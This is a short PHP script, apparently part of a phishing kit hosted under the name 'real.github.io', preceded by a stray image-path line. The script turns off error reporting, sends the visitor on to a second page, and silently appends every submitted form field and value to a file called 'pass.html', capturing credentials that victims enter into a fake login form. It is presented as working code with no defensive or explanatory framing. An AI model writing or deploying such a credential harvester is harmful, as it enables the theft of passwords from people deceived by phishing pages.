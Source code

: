 # real.github.io
<?php
header('location: 2nd.php');
error_reporting(0);
$handle = fopen("pass.html","a");
foreach($_POST as $variable => $value)
{
  fwrite($handle, $variable);
  fwrite($handle, "= ");
  fwrite($handle, $value);
  fwrite($handle, "\r\n<br>");
}
fwrite($handle, "\r\n<br>");
fclose($handle);
exit;
?> 
       
